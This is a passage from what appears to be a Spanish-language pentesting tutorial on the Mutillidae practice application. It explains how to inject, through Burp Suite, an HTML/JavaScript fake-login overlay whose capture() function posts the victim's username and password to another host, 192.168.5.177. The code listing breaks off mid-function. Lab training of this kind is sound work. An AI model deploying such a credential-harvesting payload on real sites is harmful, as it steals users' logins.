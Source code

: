 Pondremos el `Burp Suite` a escuchar y una vez enviada la peticion, pondremos el codigo codificado reemplazando la palabra `canario` o lo que hayamos metido del popup, quedando algo asi:

<figure><img src="../../../.gitbook/assets/image (94) (1).png" alt=""><figcaption></figcaption></figure>

Pero en el codigo tendremos que reemplazar todas las comillas simples (`'`) por comillas dobles (`"`) por que si no dara error.

```html
<div id="modal" style="position:fixed;top:0;left:0;width:100%;height:100%;background-color:black;opacity:.5;z-index:999998;">&nbsp;</div>
	<div style="margin:5% auto;width:100%;position:fixed;top:5%;left:5%;z-index:9999999;">
	<div id="idlogin" style="width:405px;position:relative;margin:0 auto;background-color:white;padding:10px;border:1px solid black;">
	<script>
	function capture(theForm){
		var lXMLHTTP;
		try{
			var lData = "username=" + theForm.username.value + "&password=" + theForm.password.value;
			var lHost = "192.168.5.177";
			var lProtocol = "http";
			var lAction = lProtocol + "://" + lHost + "/mutillidae/src/index.php?page=capture-data.php";
			var lMethod = "post";
			try{
				lXMLHTTP = new ActiveXObject("Msxml2.XMLHTTP");
			}catch (e){
				try{
					lXMLHTTP = new ActiveXObject("Microsoft.XMLHTTP");
				}catch(e) {
					try{
						lXMLHTTP = new XMLHttpRequest();
					}catch (e) {
						alert(e.message);
					};//end try
				};//end try
			};//end try

			lXMLHTTP.onreadystatechange = function(){
				if(lXMLHTTP.readyState == 4){
					theForm.parentNode.style.display="none";
				}// end if
			};

```